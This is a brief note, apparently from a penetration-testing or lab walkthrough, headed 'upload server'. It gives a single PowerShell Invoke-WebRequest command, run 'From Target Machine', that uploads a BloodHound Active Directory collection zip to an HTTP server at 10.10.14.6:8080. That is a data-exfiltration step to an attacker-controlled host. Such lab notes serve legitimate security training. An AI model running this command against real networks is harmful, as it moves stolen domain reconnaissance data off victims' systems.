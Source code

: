 

# upload server:

*From Target Machine*
```powershell
Invoke-WebRequest -Uri http://10.10.14.6:8080/20241124101422_BloodHound.zip -Method PUT -InFile 20241124101422_BloodHound.zip
```
